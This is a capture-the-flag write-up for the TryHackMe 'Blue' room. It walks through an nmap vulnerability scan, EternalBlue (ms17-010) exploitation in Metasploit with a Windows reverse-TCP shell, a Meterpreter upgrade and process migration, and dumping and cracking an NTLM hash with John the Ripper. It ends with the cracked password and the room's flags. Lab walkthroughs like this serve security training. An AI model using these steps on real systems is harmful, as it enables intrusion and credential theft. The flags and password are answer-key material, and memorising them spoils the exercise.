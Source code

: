 ```yaml
---
layout: page
title: Blue
permalink: /thm/blue
---
```

"Blue" is an entry-level TryHackMe room, designed to introduce users to basic Windows exploitation techniques. The main objective is to gain root access by exploiting a known vulnerability in the SMB (Server Message Block) protocol. Specifically, the target machine is vulnerable to [EternalBlue](https://it.wikipedia.org/wiki/EternalBlue) ([CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)), a critical flaw in Microsoft’s SMBv1 implementation.
EternalBlue was originally developed by the NSA and later leaked by the Shadow Brokers in 2017. It has since been widely used in various attacks, including the WannaCry ransomware outbreak. In this room, you'll scan the target for open ports and services, identify the SMB vulnerability, and use a Metasploit module or custom exploit to gain remote code execution. Once access is achieved, the final goal is to escalate privileges and capture the root flag.
This machine can be downloaded from [this page](https://darkstar7471.com/resources.html).
### Table of contents:
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags!](#find-flags)
## Recon
To get through this section you'll need to install [nmap](https://nmap.org/) or use nmap inside of [Metasploit](https://www.metasploit.com/) (which you will need later). 
1. How many ports are open with a port number under 1000?
2. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
We can answer these questions with just one nmap scan:
```
nmap --script vuln target IP
```
This will return  all open ports (9 in total, **3** under port 1000) and all known vulnerabilities (including the EternalBlue exploit, or **ms17-010**). 
![ports](images/blue/ports.png)
## Gain Access
To get through this section you'll need to install the [Metasploit framework](https://www.metasploit.com/). Then:
1. become root: `sudo su`
2. open up metasploit: `msfconsole`
3. set your local IP address to LHOST: `set LHOST` `tun0` and `LPORT` to a random port that is not already in use (e.g. `set LPPRT 4444`)
4. search metasploit's database for the EternalBlue exploit: `search ms17-010`
	- ![ms17-010](images/blue/ms17-010.png)
5. use the exploit: `use`
6. show the options for the exploit: `show options`. You'll get "**RHOSTS**" as the first result
	- ![show options](images/blue/options.png)
7. now set RHOSTS as the target machine's IP address: `set RHOSTS` target_ip
8. paste 
```
set payload windows/x64/shell/reverse_tcp
```
## Escalate
Background the session with Ctrl+z (then press `y` when prompted)
Let's now search the Metasploit database for info on how to convert a shell to a meterpreter shell:
`search shell_to_meterpreter`

![shell](images/blue/shell.png)

This way we will get the answer: `post/multi/manage/shell_to_meterpreter`
Use this post module with `use 0` and show its' options with `show options`

![session](images/blue/session.png)

Since we have two sessions going on, we will have to change the `SESSION` option to 1 with `session -i 1`. To know to which session you have to switch, use the command `sessions -l`

![sessions](images/blue/sessions.png)

Now run the exploit with `run`
Once we get the `[*] Stopping exploit/multi/handler` message, press `Ctrl+c` to stop that payload and select the session you just created with `sessions -i 2` or whatever number your session is (look for it with `sessions -l`).

![session2](/images/blue/session2.png)

![meterpreter](images/blue/meterpreter.png)

The getsystem command will now return this:

![system](images/blue/sytstem.png)

You can also list oll the processes with the ps command and you can migrate to one of these.

![ps](images/blue/ps.png)

Find a process that runs at NT AUTHORITY\SYSTEM and copy its' PID.
Now migrate to it with `migrate` and the PID (e.g. `migrate 2868`).
## Cracking
Now use the hashdump command

![hashdump](images/blue/hashdump.png)

Jon is the non-default user. Copy the NTLM digest.
Then we'll copy the digest to a file with `echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > hash.txt`
We'll run John The Ripper on the file with `john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
> This will return alqfna22 as the password.

![john](images/blue/john.png)

## Find flags!

The first flag is located in the C:\ folder: 
> flag{access_the_machine}

The second flag is loceated in the C:/Windows/System32/config folder: 
> flag{sam_database_elevated_access}

The third one is in C:\Users\Jon\Documents:
> flag{admin_documents_can_be_valuable}

That' all, hope i helped.